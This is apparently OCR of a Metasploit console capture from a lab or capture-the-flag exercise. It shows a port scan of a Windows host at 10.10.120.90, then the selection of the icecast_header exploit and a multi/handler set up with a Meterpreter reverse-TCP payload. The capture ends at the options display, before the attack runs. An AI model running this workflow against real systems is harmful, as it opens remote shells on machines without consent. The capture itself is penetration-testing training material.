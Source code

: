     host          port   proto  name               state  info
    ----          ----   -----  ----               -----  ----
    10.10.120.90  135    tcp    msrpc              open   Microsoft Windows RPC
    10.10.120.90  139    tcp    netbios-ssn        open   Microsoft Windows netbios-ssn
    10.10.120.90  445    tcp    microsoft-ds       open   Microsoft Windows 7 - 10 microsoft-ds workgroup: WORKGROUP
    10.10.120.90  3389   tcp    ssl/ms-wbt-server  open   
    10.10.120.90  5357   tcp    http               open   Microsoft HTTPAPI httpd 2.0 SSDP/UPnP
    10.10.120.90  8000   tcp    http               open   Icecast streaming media server
    10.10.120.90  49152  tcp    msrpc              open   Microsoft Windows RPC
    10.10.120.90  49153  tcp    msrpc              open   Microsoft Windows RPC
    10.10.120.90  49154  tcp    msrpc              open   Microsoft Windows RPC
    10.10.120.90  49158  tcp    msrpc              open   Microsoft Windows RPC
    10.10.120.90  49159  tcp    msrpc              open   Microsoft Windows RPC
    10.10.120.90  49160  tcp    msrpc              open   Microsoft Windows RPC

    msf5 exploit(multi/handler) > use icecast
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    
    Matching Modules
    ================
    
       #  Name                                 Disclosure Date  Rank   Check  Description
       -  ----                                 ---------------  ----   -----  -----------
       0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite
    
    
    [*] Using exploit/windows/http/icecast_header
    msf5 exploit(windows/http/icecast_header) > use 6
    msf5 exploit(windows/http/icecast_header) > use multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf5 exploit(multi/handler) > show options
    
    Module options (exploit/multi/handler):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST                      yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Wildcard Target
    